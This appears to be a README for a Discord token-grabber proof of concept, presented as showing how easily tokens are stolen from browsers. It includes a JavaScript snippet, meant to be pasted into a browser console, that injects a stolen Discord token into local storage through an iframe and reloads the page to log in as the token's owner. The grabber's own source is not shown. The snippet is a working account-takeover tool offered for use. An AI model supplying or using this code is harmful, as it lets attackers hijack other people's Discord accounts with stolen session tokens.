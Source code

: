 # POC
This source code of a discord-token-grabber is to show how is to easy to steal the tokens of discord from different browsers

# Tokens
To use the tokens I give you a little code to paste on the browser console 

``` js
let token = "YOUR TOKEN HERE";

function login(token) {
    setInterval(() => {
      document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
    }, 50);
    setTimeout(() => {
      location.reload();
    }, 2500);
  }

login(token);
```
